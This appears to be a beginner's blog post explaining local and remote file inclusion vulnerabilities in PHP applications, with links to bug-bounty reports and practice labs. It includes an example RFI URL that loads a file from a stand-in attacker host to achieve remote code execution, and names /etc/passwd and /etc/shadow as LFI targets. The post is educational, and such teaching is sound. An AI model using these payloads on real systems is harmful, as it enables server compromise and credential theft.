 # <center> RFI and LFI, explained and what’s the difference between them? </center>

Hello everyone! <br> Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
<br>
Let's see now:
<br>
In the easiest way if we want to explain it, we'll say it like this <br>
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
<br>
<center> <img src="lfi-example.PNG"/> </center>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in 
RCE(Remote Code Execution). <br> For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.txt </code>.
You could execute malicious code from the <code> file.txt </code> file and use it for evil intention. <br>
<br>
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. <br>
<br>
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br> <br>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br> <br>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br> <br>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br> <br>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br> <br>
<a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
 so you get notified when I post another blog. Oh yeah I almost forgot, don't forget to join a <a href="discord.gg/bugbounty">Discord Bug Bounty</a> server with great community there, you can ask
 for help there if you need it.

